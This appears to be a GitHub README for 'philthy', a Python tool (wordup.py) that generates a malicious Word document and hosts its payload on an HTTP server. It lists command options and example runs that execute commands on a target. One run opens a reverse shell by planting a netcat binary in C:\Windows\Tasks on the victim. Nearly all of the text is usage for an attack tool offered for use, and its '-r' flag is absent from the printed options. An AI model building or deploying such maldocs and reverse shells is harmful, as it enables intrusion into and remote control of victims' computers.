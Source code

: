 # philthy
attack with a philthy malicious Microsoft Word document and stage a payload with an HTTP server.


USAGE
usage: wordup.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./wordup.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)



SOME STUFF TO TEST:

Pop calc.exe:

$ python3 wordup.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./wordup.doc
[+] serving html payload on :8000

Pop notepad.exe:

$ python3 wordup.py -c "notepad"

Get a reverse shell on port 9001. Note, this downloads a netcat binary onto the victim and places it in C:\Windows\Tasks. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.

$ python3 wordup.py -r 9001
